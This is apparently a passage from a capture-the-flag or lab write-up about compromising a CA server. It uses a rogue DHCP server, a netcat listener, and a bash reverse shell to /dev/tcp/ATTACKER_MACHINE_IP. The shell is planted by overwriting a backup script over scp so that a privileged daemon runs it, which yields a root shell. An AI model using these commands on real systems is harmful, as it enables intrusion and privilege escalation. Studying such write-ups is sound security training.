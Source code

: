 We then set up a simple dhcp server using either `isc-dhcp-server` or making our own using python and library like `pydhcplib`/`scapy`.

We wait for a bit, looking at the traffic in wireshark to see when the DHCP client of the CA is issued an ip address.

When that happens, we could attempt to attack the machine again.

On the attacker machine:

```bash
# Need sudo as port 80 is a privileged port
sudo nc -l -n -vv -p 80
```

From the cabackup@admin-server:

```bash
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/ATTACKER_MACHINE_IP/80 0>&1'" > reverse.sh

scp -i .ssh/caserver ./reverse.sh laurin@192.168.1.21:./backup/backup.sh

ssh -i .ssh/caserver laurin@192.168.1.21 "./backup/backup.sh emergency"
```

And we got ourselves another shell :D.

On the ca server, we find the origin backup script `bckp_backup_script.sh`. Reading it, we can see that it's possible to transfer files over `scp` using a the key `.ssh/archive` to the archive machine as the user `caserver`. We try our luck with an ssh connection:

```shell
ssh -i /home/laurin/.ssh/archive caserver@archive
```

but we get

```shell
PTY allocation request failed on channel 0
```

and the shell hangs. We might be limited by yet another rule in `authorized_keys` on the remote machine.

This time, trying to extract the `authorized_keys` with scp fails.

Let's see what else we can do...

Out of curiosity, we can execute the backup script. The output it filled with permission denied errors. This means that whatever daemon(`cron` and the like) is executing the script, it is likely running with elevated privileges.

So, leave the malicious script as is and patiently wait with the netcat listener on the attacker's machine...

```bash
# Need sudo as port 80 is a privileged port
sudo nc -l -n -vv -p 80
```

At some point in time, the script gets executed by the daemon, and we get a root shell!
